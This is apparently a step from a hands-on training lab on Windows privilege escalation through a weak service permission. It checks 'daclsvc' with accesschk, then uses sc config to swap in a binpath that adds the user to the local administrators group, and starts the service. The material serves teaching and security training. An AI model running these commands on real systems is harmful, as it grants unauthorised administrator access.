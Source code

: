 **Detection**  

Windows VM

1. Open command prompt and type: 
   
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

2. Notice that the output suggests that the user “User-PC\User” has the “SERVICE_CHANGE_CONFIG” permission.

**Exploitation**

Windows VM

1. In command prompt type: 
   
```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

2. In command prompt type: 
   
```
sc start daclsvc
```
  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 
   
```
net localgroup administrators
```

Answer the questions below

Click 'Completed' once you have successfully elevated the machine